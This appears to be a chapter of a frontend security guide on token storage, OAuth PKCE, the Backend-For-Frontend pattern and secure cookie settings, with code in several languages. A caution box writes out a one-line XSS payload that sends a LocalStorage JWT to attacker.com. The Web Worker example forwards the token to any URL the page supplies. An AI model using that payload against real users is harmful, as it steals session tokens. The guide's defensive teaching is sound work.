

# 04. Client-Side Authentication, Token Storage & Browser Storage Hazards

Securing session state and authentication tokens in Single Page Applications (SPAs) is one of the most critical challenges in frontend security. Storing sensitive credentials (such as OAuth Access Tokens or Refresh Tokens) in client-side storage mechanisms like `LocalStorage` exposes them to complete exfiltration if the application suffers even a single Cross-Site Scripting (XSS) flaw.

This chapter analyzes browser storage security, details the **OAuth 2.0 Authorization Code Flow with PKCE**, establishes the **Backend-For-Frontend (BFF)** architectural pattern, and explores **Web Worker token isolation**.

---

## 1. Browser Storage Security Comparison Matrix

Modern browsers provide several APIs for persisting data on the client side. Their accessibility by JavaScript determines their vulnerability profile to XSS.

| Storage API | Accessible by JS? | Vulnerable to XSS Theft? | Persistent across Tabs? | Recommended For |
| :--- | :--- | :--- | :--- | :--- |
| **`LocalStorage`** | **Yes** (`window.localStorage`) | **HIGH** (1-line script exfiltrates all keys) | Yes (until explicitly cleared) | Non-sensitive UI themes, preference settings |
| **`SessionStorage`** | **Yes** (`window.sessionStorage`) | **HIGH** (Exfiltrated while tab is open) | No (cleared when tab closes) | Temporary form data, multi-step wizards |
| **`IndexedDB`** | **Yes** (`window.indexedDB`) | **HIGH** (Accessible via JS API) | Yes | Non-sensitive offline caching, large datasets |
| **In-Memory JS State** | **Yes** (React State, Redux) | **MEDIUM** (Lost on refresh, but XSS can read active state) | No (lost on tab refresh) | Ephemeral UI state, short-lived tokens |
| **Web Worker Memory** | **No** (Isolated thread) | **LOW** (Main thread XSS cannot directly read Worker memory) | No | Active in-memory access tokens |
| **`HttpOnly` Cookie** | **NO** (Blocked by browser engine) | **NONE** (JS cannot read cookie string) | Configurable (`Expires`/`Max-Age`) | **Session IDs & OAuth Tokens** |

> [!CAUTION]
> **The LocalStorage Token Anti-Pattern:** Never store raw JWT access tokens or refresh tokens in `LocalStorage` or `SessionStorage`. If an attacker executes XSS, they can execute `fetch('https://attacker.com/steal?token=' + localStorage.getItem('jwt'))` and permanently compromise the user session.

---

## 2. OAuth 2.0 PKCE in Single Page Applications

The legacy OAuth 2.0 **Implicit Grant Flow** (which returned access tokens directly in the URL hash fragment) has been deprecated due to URI logging, token leakage in `Referer` headers, and history state exposure.

SPAs must use the **Authorization Code Flow with PKCE (Proof Key for Code Exchange)** (RFC 7636).



### Cryptographic PKCE Generation (JavaScript Web Crypto API)
```javascript
// Step 1: Generate a cryptographically random code_verifier string
function generateCodeVerifier() {
  const array = new Uint8Array(32);
  window.crypto.getRandomValues(array);
  return base64UrlEncode(array);
}

// Step 2: Calculate SHA-256 hash digest (code_challenge)
async function generateCodeChallenge(verifier) {
  const encoder = new TextEncoder();
  const data = encoder.encode(verifier);
  const digest = await window.crypto.subtle.digest('SHA-256', data);
  return base64UrlEncode(new Uint8Array(digest));
}

function base64UrlEncode(buffer) {
  let str = String.fromCharCode.apply(null, buffer);
  let base64 = btoa(str);
  return base64.replace(/\+/g, '-').replace(/\//g, '_').replace(/=+$/, '');
}
```

---

## 3. The Backend-For-Frontend (BFF) Architecture Pattern

While OAuth 2.0 PKCE protects token exchange, holding tokens inside JavaScript memory still leaves them susceptible to XSS exfiltration. The gold standard for modern SPA security is the **Backend-For-Frontend (BFF)** pattern.

In a BFF architecture, the SPA does not interact directly with the Identity Provider or hold access tokens. Instead, a lightweight, confidential server proxy (the BFF) manages authentication state.

```mermaid
sequenceDiagram
    autonumber
    actor SPA as React / Vue SPA
    participant BFF as Backend-For-Frontend (BFF Node/Go Proxy)
    participant IdP as Identity Provider (IdP)
    participant Micro as Microservices

    SPA->>BFF: 1. Click Login -> GET /api/auth/login
    BFF->>IdP: 2. Confidential OAuth 2.0 PKCE Flow (With Client Secret)
    IdP-->>BFF: 3. Return Access & Refresh Tokens to BFF
    BFF->>BFF: 4. Encrypt tokens inside server-managed session
    BFF-->>SPA: 5. Return HTTP 200 OK + Set-Cookie: __Host-session=COOKIE_ID; HttpOnly; Secure; SameSite=Strict

    Note over SPA,BFF: Subsequent API Calls
    SPA->>BFF: 6. GET /api/v1/orders [Cookie: __Host-session=COOKIE_ID]
    BFF->>BFF: 7. Validate Cookie & Extract Access Token from session store
    BFF->>Micro: 8. GET /orders [Authorization: Bearer ACCESS_TOKEN]
    Micro-->>BFF: 9. JSON Response
    BFF-->>SPA: 10. Forward Sanitized JSON to SPA
```

---

## 4. Secure Cookie Attributes & Prefix Masterclass

When session state or tokens are stored in cookies, specific browser attributes must be configured to prevent XSS exfiltration, network eavesdropping, and CSRF attacks.

### A. Essential Cookie Attributes
- **`HttpOnly`**: Forbids JavaScript code (`document.cookie`) from reading or modifying the cookie string. Neutralizes XSS token theft.
- **`Secure`**: Enforces that the cookie is transmitted **only** over encrypted HTTPS connections.
- **`SameSite=Strict`**: The cookie is withheld from all cross-site requests (e.g., following external links or cross-site image requests). Eliminates CSRF attacks.
- **`SameSite=Lax`**: Withholds cookies on cross-site subrequests (e.g., `` or `fetch`), but permits sending when navigating to the origin site.

### B. Secure Cookie Prefixes (`__Host-` and `__Secure-`)
Modern browsers enforce strict security constraints on cookies whose names begin with security prefixes:

1. **`__Host-` Prefix:** The strongest cookie protection available. The browser will **reject** setting the cookie unless:
   - It includes the `Secure` flag.
   - It is sent from an HTTPS origin.
   - It does **not** specify a `Domain` attribute (locking it strictly to the current host).
   - Its `Path` attribute is explicitly set to `/`.

2. **`__Secure-` Prefix:** Less restrictive than `__Host-`. Requires the `Secure` flag and HTTPS origin, but permits setting custom domains and paths.

---

## 5. Multi-Language Secure Cookie Implementation

### Node.js (Express)
```javascript
res.cookie('__Host-session', sessionToken, {
  httpOnly: true,
  secure: true, // Requires HTTPS
  sameSite: 'strict',
  path: '/',
  maxAge: 3600 * 1000 // 1 hour
});
```

### Python (Flask)
```python
response = make_response(render_template('dashboard.html'))
response.set_cookie(
    '__Host-session',
    value=session_token,
    httponly=True,
    secure=True,
    samesite='Strict',
    path='/'
)
```

### Go (Standard `net/http`)
```go
cookie := http.Cookie{
    Name:     "__Host-session",
    Value:    sessionToken,
    Path:     "/",
    HttpOnly: true,
    Secure:   true,
    SameSite: http.SameSiteStrictMode,
    MaxAge:   3600,
}
http.SetCookie(w, &cookie)
```

### Java (Spring Security ResponseCookie)
```java
ResponseCookie cookie = ResponseCookie.from("__Host-session", sessionToken)
        .httpOnly(true)
        .secure(true)
        .sameSite("Strict")
        .path("/")
        .maxAge(Duration.ofHours(1))
        .build();

response.addHeader(HttpHeaders.SET_COOKIE, cookie.toString());
```

---

## 6. Web Workers for In-Memory Token Storage

If an application **must** receive OAuth access tokens in JavaScript (e.g., calling third-party APIs directly), tokens should be stored in an isolated **Web Worker** memory thread rather than the main thread window object.

Because Web Workers execute in a separate global scope (`DedicatedWorkerGlobalScope`) without direct access to the DOM or `window` object, XSS scripts running on the main thread cannot inspect the worker's internal variables.

```typescript
// worker.ts: Dedicated Token Storage Worker
let accessToken: string | null = null;

self.onmessage = async (event: MessageEvent) => {
  const { type, payload } = event.data;

  switch (type) {
    case 'STORE_TOKEN':
      accessToken = payload.token;
      self.postMessage({ status: 'TOKEN_STORED' });
      break;

    case 'FETCH_API':
      if (!accessToken) {
        self.postMessage({ error: 'UNAUTHORIZED' });
        return;
      }
      // Worker performs the fetch request and attaches bearer header safely
      const response = await fetch(payload.url, {
        headers: {
          ...payload.headers,
          'Authorization': `Bearer ${accessToken}`
        }
      });
      const data = await response.json();
      self.postMessage({ status: 'SUCCESS', data });
      break;
  }
};
```

---
